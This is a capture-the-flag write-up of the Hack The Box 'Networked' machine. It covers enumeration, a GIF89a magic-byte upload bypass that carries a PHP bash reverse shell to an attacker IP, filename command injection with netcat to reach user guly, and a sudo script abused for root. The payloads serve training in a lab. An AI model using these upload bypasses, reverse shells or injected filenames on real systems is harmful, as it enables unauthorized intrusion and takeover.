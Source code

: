 ```yaml
---
layout: default
title: "Hack The Box - Networked"
date: 2019-11-16
tags: magic-bytes network-scripts "sudo -l"
---
```


# **Networked - 10.10.10.146**

####  `Networked` is a simple, straight-forward machine with no rabbit holes, which is why it is a great machine . The IP of the machine is **10.10.10.146**. This machine like most machines in **HTB** comes with lot of new things to learn.


## **1.Enumeration**
  As always, let us begin the enumeration using `nmap`
  
### 1.1 nmap
  This is the result of running `nmap -sC -sV -p- 10.10.10.146`

  ``` bash
Nmap scan report for 10.10.10.146 (10.10.10.146)
Host is up (0.30s latency).
Not shown: 997 filtered ports, 1 closed port
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn\'t have a title (text/html; charset=UTF-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.29 seconds

  ```

We see tha two ports 22 and 80 are open in this machine. Considering higher probability of finding vulnerability in port 80, let us enumerate port 80.

### Port 80

![networked_webpage](/images/htb/Networked/networked_webpage.png)

Since we could not find much information in the webpage, let us dig in deeper and check if we can find more directories or web pages. For this let us use `GoBuster`.

``` bash
gobuster dir --url=http://10.10.10.146 --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.146
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2019/11/16 10:23:32 Starting gobuster
===============================================================
/index.php (Status: 200)
/uploads (Status: 301)
/photos.php (Status: 200)
/upload.php (Status: 200)
/lib.php (Status: 200)
/backup (Status: 301)

```
Now, that looks promising. Let us go check out **/backup** first.

![networked_webpage_backup](/images/htb/Networked/networked_webpage_backup.png)

We see a `backup.tar` file that we can now download and analyze.

We have downloaded it, extracted contents of the compressed tar file and we see it has the following contents.

``` bash
root@b1nbash:~/Documents/HTB/Networked/backup# ls -al
total 24
drwxr-xr-x 2 root root 4096 Nov  4 20:47 .
drwxr-xr-x 3 root root 4096 Nov  5 03:26 ..
-rw-r--r-- 1 root root  229 Jul  9 17:03 index.php
-rw-r--r-- 1 root root 2001 Jul  2 17:08 lib.php
-rw-r--r-- 1 root root 1871 Jul  2 18:23 photos.php
-rw-r--r-- 1 root root 1331 Jul  2 18:15 upload.php
root@b1nbash:~/Documents/HTB/Networked/backup#
```

Examining the contents of `upload.php` we see that only image files are allowed. If we are able to bypass this check/filtering then we may achieve LFI (Local File Inclusion) and hence, RCE (Remote Code Execution). In `upload.php` we see that the extention of uploaded file is checked and also function `check_file_type()` from `lib.php` is being called to check the file signature to confirm the file type as image. These signatures are sometimes refered to as `the magic bytes`. Researching more on evading the magic byte check while uploading a shell script, we learn that a file starting with magic bytes `GIF89a` will be considered as a GIF image file. Now let us create a file **reverse.php.gif** with following contents.

```
GIF89a;
<h1>Reverse</h1><pre>
<?php shell_exec("bash -i >& /dev/tcp/10.10.14.2/1234 0>&1");
?>
```

## **2.Exploitation**

Now that we are ready with our exploit, let us upload the exploit php script and try to get a reverse shell in netcat, now listening on port 1234.
We go to page `/upload.php` as shown below.

![network_upload_1](/images/htb/Networked/network_upload_1.png)

Now we can browse and uplad the `reverse.php.gif` file and we get the following result.

![netwrk_upload_2](/images/htb/Networked/network_upload_2.png)

To execute the php script we access `/photos.php`

![photos.php](/images/htb/Networked/network_photos.png)

We now get a reverse shell like below

![reverse-apache](/images/htb/Networked/networked_rev_shell.png)

But as we see below we are not able to access the user.txt file. To access it we have to become `guly`.


![permission-denied](/images/htb/Networked/networked_exploit_1.png)


## **3.Privilege Escalation**

### **Privilege Escalation- guly**
In the `/home/guly` directory we find a file named `check_attack.php`. Let us try to understand what the file does.

From the program we observe that `$path$value` is called to be deleted when attack observed. This is nothing but name of filenames in folder `/var/www/uploads/` with the full path. Now, if we can give a command as input to the exec() we can get code execution. This requires manupilation of file name to contain the code we need to execute.
After trying names like `10_10_14_2;nc 10.10.14.2 9000 -e sh.png`, `10_10_14_2;nc 10.10.14.2 9000 -e bash &.png`, I realised that the reverse shell closes immediately. I tried doing `nc 10.10.14.2 9000 -e bash`and the same happened. Then I tried `nc 10.10.14.2 9000 -e /bin/bash`. This time, I got a stable shell !!!
Oops, how do we give that as file name ???
I decided to take help of environment variables, checked value of `$SHELL` and found it to be `/sbin/nologin`.
I changed the value of SHELL and made changes to file name as below

``` bash
bash-4.2$ export SHELL=/bin/bash
bash-4.2$ mv '10_10_14_2;nc 10.10.14.2 9000 -e bash &.png' '10_10_14_2;nc 10.10.14.2 9000 -e $SHELL &.png'
bash-4.2$
```
And I get reverse shell as gully :D

![reverse-shell-gully](/images/htb/Networked/networked_rev_guly.png)

## **Privilege Escalation - root**

To become root, we look at the available privileges we have using `sudo -l`.
``` bash
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked ~]$
```
So user `guly` has sudo privileges on `/usr/local/sbin/changename.sh`. Let us try running it with some random input.

![random_fuzz](/images/htb/Networked/networked_fuzz1.png)

So we observe that the input can be used to run arbitrary commands as root :)

![priv-escalate-root](/images/htb/Networked/networked_root.txt.png)

The second command given as value to PROXY_METHOD, gives us shell as root.

